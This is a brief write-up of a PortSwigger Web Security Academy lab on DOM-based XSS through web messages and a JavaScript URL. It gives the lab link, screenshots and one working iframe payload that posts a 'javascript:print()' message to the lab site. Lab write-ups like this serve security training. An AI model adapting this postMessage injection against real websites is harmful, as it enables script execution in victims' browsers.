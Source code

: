# DOM XSS using web messages and a JavaScript URL
Lab URL :- 

`https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url`

![image](https://user-images.githubusercontent.com/60841283/153745891-1abc46fc-6209-47cd-9758-d4ed7835029b.png)

Payload in exploit server (in Body section) :- 
```html
<iframe src="https://aca41fb21f22be89c08920d7000500d9.web-security-academy.net/#" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>
```

![image](https://user-images.githubusercontent.com/60841283/153745846-b911ffad-70b0-4fc3-a33d-85a6b54741af.png)

